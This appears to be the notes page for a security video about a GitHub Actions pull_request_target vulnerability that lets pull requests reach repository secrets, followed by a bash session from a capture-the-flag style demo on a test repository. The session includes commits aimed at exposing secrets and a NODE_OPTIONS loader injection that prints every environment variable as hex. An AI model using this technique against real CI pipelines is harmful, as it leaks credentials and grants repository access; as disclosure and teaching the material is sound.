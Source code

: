# [github actions vulnerability or "why bug bounties are a scam" (intermediate)](https://youtu.be/_fpXyS_i1xE)

Today I talk about a vulnerability I found in github actions involving the `pull_request_target` feature and how it escalates to credential access / full repository access.  I found over ~350 vulnerable repositories including ones owned by google, amazon, microsoft, alibabi, psf and more and document my experience (or lack thereof) with bug bounty programs.

## Interactive examples

### Bash

```bash
git clone git@github.com:<username>/gha-test
# git clone https://github.com/<username>/gha-test
cd gha-test
ls

git checkout origin/main -b ctf1
git status
git add -u
git commit -m 'capture flag 1: attempt 1'
git push origin HEAD

chmod +x t.sh
git add .
git status
git commit -m 'expose secret attempt 1'
git push origin HEAD

git status
git add -u
git commit -m 'capture it as base64'
git push origin HEAD

git add t.sh
git status
git commit -m 'hex dump instead?'
git push origin HEAD

export NODE_OPTIONS="--experimental-modules --experimental-loader=data:text/javascript,console.log(Buffer.from(JSON.stringify(process.env)).toString('hex'));//"
fc
node
env

git checkout origin/main -b ctf2
chmod +x t.sh
git add Makefile
git add t.sh
git status
git commit -m 'attempt to capture flag 2'
git push origin HEAD
```
